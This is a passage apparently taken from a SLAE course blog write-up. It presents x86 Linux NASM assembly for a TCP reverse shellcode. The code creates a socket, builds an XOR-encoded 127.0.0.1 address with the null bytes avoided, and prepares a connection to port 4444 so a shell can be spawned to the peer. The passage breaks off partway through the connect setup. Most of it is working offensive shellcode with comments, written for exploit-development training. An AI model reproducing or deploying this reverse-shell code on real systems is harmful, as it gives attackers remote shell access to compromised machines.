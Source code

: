 push word 0x5c11 	; port 4444 is 0x5c11
push word 0x2 		; AF_INET is 2


mov ecx, esp
mov dl, 0x10 ; sizeof(struct sockaddr_in)
xor eax, eax
mov ax, 0x16a
int 0x80 

{%endhighlight%}

If we put this implementation in our assembler file with socket(), dup2() and
execve() as the same as the first assignment, we obtain this code.
We compile it and we run it.

{% highlight asm %}
; Filename: 	tcp_reverse_shellcode.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Twitter:    	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	connect to a given IP and PORT and spawning a reverse shell if
;		connection succeded 


global _start			

section .text

_start:

	; Creating the socket.
	; 
	; int socket(int domain, int type, int protocol);
	; 
	; socket() is defined as #define __NR_socket 359 on /usr/include/i386-linux-gnu/asm/unistd_32.h
	; AF_INET is defined as 2 in /usr/include/i386-linux-gnu/bits/socket.h
	; SOCK_STREAM is defined as 1 in /usr/include/i386-linux-gnu/bits/socket_type.h
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx

	mov ax, 0x167
	mov bl, 0x2
	mov cl, 0x1
	int 0x80 ; sfd = socket(AF_INET, SOCK_STREAM, 0);
	mov ebx, eax ; storing the socket descriptor into EBX for next syscall

	; Connect to my peer
	; 
	; connect() is defined as #define __NR_connect 362 on  /usr/include/i386-linux-gnu/asm/unistd_32.h
	; peer.sin_family 	= AF_INET;
	; peer.sin_port 	= htons(DPORT); 
	; peer.sin_addr.s_addr = inet_addr(IP); 
	; ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

	; 127 = 0x7f
	; 0   = 0x0 
	; 0   = 0x0 
	; 1   = 0x1

	; push 0x0100007f
	mov eax, 0xfeffff80
	xor eax, 0xffffffff
	push eax
	push word 0x5c11 	; port 4444 is 0x5c11
	push word 0x2 		; AF_INET is 2
	
